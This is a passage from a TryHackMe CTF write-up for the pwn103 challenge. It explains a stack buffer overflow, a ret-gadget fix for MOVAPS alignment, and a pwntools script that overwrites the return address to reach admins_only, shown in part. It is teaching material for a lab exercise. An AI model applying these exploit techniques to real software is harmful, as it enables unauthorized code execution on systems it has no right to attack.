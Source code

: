 When we create a string with cyclic and try to inflate buffer we see 40 char is enough. Then we write our admins_only’s adress and try to exploit. It works on local but without this command line it does not work on remote server: “exploit  += p64(0x401016)”

Why? Because of MOVAPS issue. Check this writeup section to understand this. 

[DEF CON CTF Qualifier 2015: r0pbaby write-up - Peilin Ye's blog](https://ypl.coffee/r0pbaby/#section5)

To fix MOVAPS issue we have to write like this  

> “ret retgadget admins_only”
> 

instead of 

> “ret admins_only”
> 

Because MOVAPS issue you should find ret’s address from 

```bash
objdump -d ./pwn103.pwn103
```

![Untitled](Pwn101%20-%20TryHackMe%20CTF%20Writeup/Untitled%2013.png)

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

elf = ELF('./pwn103.pwn103')

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([elf] + argv, *a, **kw)

io = start()

exploit  = b''
exploit  += b"\x90"*40
#exploit  += pack("<I", 0x401016)
#exploit  += pack("<I", 0x0000000000401554)

exploit  += p64(0x401016)
exploit  += p64(elf.symbols['admins_only'])

print(io.recv().decode('utf-8'))
io.sendline('3')
```